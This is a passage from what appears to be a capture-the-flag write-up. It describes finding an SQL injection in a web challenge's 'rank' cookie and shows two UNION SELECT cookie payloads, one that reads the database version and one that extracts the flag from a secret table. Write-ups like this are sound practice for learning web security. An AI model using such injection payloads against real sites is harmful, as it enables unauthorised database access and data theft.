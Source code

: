 After some testing of the fields, I realized that there was an SQL injection in the rank cookie.

```python
Cookie: PHPSESSID=d7qeso6h5feg15tpmcnn5pu8e8; rank=0 union select version(),66,77,88#--
```

![lv6-6](img/lv6-6.png)

Enumerate the database with the SQL injection, and get the flag.

```python
Cookie: PHPSESSID=d7qeso6h5feg15tpmcnn5pu8e8; rank=0 union select flag,66,77,88 from palindrome.CTF_SECRET#--
```
